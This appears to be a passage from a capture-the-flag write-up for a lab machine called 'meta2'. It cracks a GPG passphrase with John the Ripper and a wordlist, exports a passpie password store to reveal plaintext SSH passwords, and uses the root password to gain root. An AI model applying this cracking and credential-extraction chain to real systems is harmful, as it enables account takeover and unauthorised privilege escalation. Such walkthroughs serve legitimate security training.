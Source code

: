 ```bash
» gpg2john keys > gpg.john
File keys

» john -w=/usr/share/dict/rockyou.txt gpg.john
...
blink182         (Passpie)
```

Now we have the passphrase.

These are the existing passwords stored:

```bash
jnelson@meta2:~$ passpie list
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛
```

Exporting and reviewing:

```bash
jnelson@meta2:~$ passpie export exported
Passphrase:

jnelson@meta2:~$ cat exported
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```

And then:

```bash
jnelson@meta2:~$ su root
Password:
root@meta2:/home/jnelson# id
uid=0(root) gid=0(root) groups=0(root)
```

